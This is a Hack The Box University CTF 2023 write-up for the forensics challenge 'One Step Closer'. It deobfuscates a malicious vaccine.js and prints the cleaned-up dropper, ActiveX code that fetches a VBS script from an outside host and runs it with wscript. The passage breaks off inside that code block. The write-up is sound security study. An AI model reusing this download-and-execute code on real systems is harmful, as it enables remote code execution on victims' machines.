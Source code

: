 ```yaml
---
title:  "HTB University CTF 2023: Brains & Bytes"
seo_title: "CTF writeup for some of the Forensics and Pwn Challenges of the Hack The Box University CTF 2023 Competition"
date:   2023-10-28T15:30
categories: ['HackTheBox', 'CTF', 'DFIR', 'Web-Exploitation']
---
```


![](/assets/images/headers/htb-ctf-2023.jpg)

## Forensics: One Step Closer (Easy)
### Description
Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. 

### Vaccine File
We are given a `vaccine.js` file that contains some malicious obfuscated JS code. Two function are never used inside the script, so we can remove them. After renaming some variables we can figure out what the remainder of the script is doing:
```js
var HTTPObject = new ActiveXObject("MSXML2.XMLHTTP.6.0");
var FileSystemObject = new ActiveXObject("Scripting.FileSystemObject");
var ShellObject = new ActiveXObject("WScript.Shell");
var TmpPath = 'C:\\Windows\\Temp';
var Filename = FileSystemObject.GetTempName() + ".vbs"; 
var FilePath = FileSystemObject.BuildPath(TmpPath, Filename);
HTTPObject.open("GET", "http://infected.human.htb/d/BKtQR", false);
HTTPObject.send();

if (HTTPObject.status === 200) {
    var scriptText = HTTPObject.responseText;
    var FileHandle = FileSystemObject.CreateTextFile(FilePath, true);
    FileHandle.write(scriptText);
    FileHandle.close();
    var ExecutionHandle = ShellObject.Exec('wscript "' + FilePath + '"');
```
